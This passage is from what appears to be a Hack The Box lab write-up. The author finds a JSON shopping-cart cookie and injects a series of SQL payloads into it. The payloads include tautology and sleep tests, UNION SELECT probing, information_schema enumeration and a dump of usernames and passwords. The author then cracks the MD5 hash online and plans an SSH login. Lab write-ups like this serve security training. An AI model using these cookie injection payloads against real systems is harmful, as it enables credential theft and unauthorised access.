 To continue i inspect the page and search the cookies, and i've seen one called 
custom_cart and it's quite interesting

![Untitled](/HTB/cookies-shared.png)

Now, go to burpsuite:

![Untitled](/HTB/burpsuite-shared.png)

Now we will focus on the cookie mentioned above because if we convert it from url encode
 we can see that it stays something like this: 'custom_cart={"53GG2EF8":"1"}'

So I start doing tests to see if SQL injection could be applied, playing with the cookie and the response of Not Found, some commands I use:
```ruby
custom_cart={"'":"1"}
custom_cart={"' or 1=1-- -'":"1"}
custom_cart={"' or 1=2-- -'":"1"}
custom_cart={"order by 100":"1"}
custom_cart={"'order by 5'":"1"}
custom_cart={"'or sleep(5)-- -'":"1"}  -> disappears Not Found
custom_cart={"'and sleep(5)-- -'":"1"}
custom_cart={"'union select 1-- -'":"1"} -> here I supouse that there is one column
custom_cart={"'union select 1,2,3-- -'":"1"} -> here in the column of Not Found appears '2', so interesting 
custom_cart={"'union select 1,'prueba',3-- -'":"1"} -> here, definitely is posible a SQL injecton, becaus in Not Found column shows 'prueba'
custom_cart={"'union select 1,database(),3-- -'":"1"} -> with database() we can know the data base name
custom_cart={"'union select 1,group_concat(schema_name),3 from information_schema.schemata-- -'":"1"} -> with this we can know all data base names
custom_cart={"'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='checkout'-- -'":"1"} -> with that we can know the tables of the data base checkout
custom_cart={"'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='checkout' and table_name='user'-- -'":"1"} -> with this we can know columns of table User
custom_cart={"'union select 1,group_concat(username,0x3a,password),3 form user-- -'":"1"} -> 0x3a = : 
```

![Untitled](/HTB/burpsuitePasw-shared.png)

Now with the hash obtained I'm going to pass it through 'hash-identifier', and it shows me that is encoded in md5.

![Untitled](/HTB/hashIdentifier-shared.png)

Now I'm going to try to decipher this password, it can be done in many ways (with a dictionary, with the GPU with hashcat ...), but as this should be simple let's look for an online decryptor.

![Untitled](/HTB/psw-shared.png)

Now as we already have the password, let's try to connect to the machin by ssh with user james_mason
